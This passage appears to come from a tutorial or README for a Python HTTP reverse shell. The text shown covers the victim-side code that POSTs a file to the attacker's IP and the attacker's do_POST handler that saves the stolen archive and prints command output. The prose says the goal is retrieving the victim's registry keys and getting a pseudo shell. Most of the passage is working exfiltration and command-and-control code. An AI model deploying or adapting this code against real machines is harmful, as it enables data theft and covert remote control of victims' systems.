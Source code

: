```python

    if os.path.exists(path):
        url = IP + '/store'  # Append /store in the URL
        # Add a dictionary key where file will be stored
        files = {'file': open(path, 'rb')}
        r = requests.post(url, files=files)  # Send the file
        # requests library use POST method called "multipart/form-data"
    else:
        post_response = requests.post(
            url=IP, data='[-] Not able to find the file !')
```

After the file is sent back to the server, the server's `ReverseShellHandler` is called again.
However, this time it requires an implementation of `POST`; found in `do_POST(self)`.
In `do_post(self)` the server first checks to see if **/store** has been appended to the path.
If so, it is an indication that the victim's machine is sending back a file.

If this is the case, the server will need to use `cgi` to parse the request header's and then cgi's `FieldStorage` to parse the data being sent.
Without using `cgi` and `FieldStorage` it would be much more difficult to return the file to its original format and since a zip archive is a binary file it needs to have its header and footer information exact for the attacker to be able to unzip it.
After parsing the file, the server sends a reply back to the victim to notify that the data was received. The attacker can now unzip the **reg.zip** archive now on their machine and retrieve the victim's registry keys.

If **/store** is not appended, then the data sent by the victim would be printed to standard output on the attacker's machine.
For example, if manual mode was set the attacker could send `dir` to the victim and the victim would send to the attacker the current directory's contents. 
Once the data is received by the attacker it would be printed to his screen, giving him essentially a pseudo shell.

```python
def do_POST(self):
    """
    When the server is hit with a POST request it will
    first check to see if the path has been appended with /store
    meaning that it is sending a file back. If so the file parsed
    and returned to its original format using FieldStorage and is saved

    Otherwise if store is not in the path the data from the POST is printed out
    """
    if self.path == '/store':  # Check whether /store is appended or not

        ctype, _ = cgi.parse_header(
            self.headers['content-type'])
        if ctype == 'multipart/form-data':
            fs = cgi.FieldStorage(fp=self.rfile, headers=self.headers, environ={
                'REQUEST_METHOD': 'POST'})

        # Here file is the key to hold the actual file, same key as the one set in client.py
        fs_up = fs['file']

        # Create new file and write contents into this file
        with open(fs_up.filename, '+wb') as o:
            o.write(fs_up.file.read())
            self.send_response(200)
            self.end_headers()
        return

    self.send_response(200)
    self.end_headers()

    # Define the length which means how many bytes the HTTP POST data contains
```
